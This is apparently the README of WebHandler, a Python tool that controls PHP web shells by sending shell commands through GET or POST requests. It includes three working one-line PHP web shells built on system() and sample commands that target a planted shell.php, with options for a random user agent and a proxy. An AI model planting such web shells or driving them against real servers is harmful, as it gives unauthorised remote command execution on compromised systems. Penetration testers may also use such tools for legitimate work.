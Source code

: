 WebHandler - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...
The script tries to simulate Linux bash as it works from CLI.
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".
It sends requests to the server through urllib/urllib2 [Python][] modules.

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php system($_POST['cmd']); ?>`
    - `<?php system($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 2.7.x
Then [argparse][] is required.
To install it run:
`easy_install argparse` **OR** `pip --install argparse`

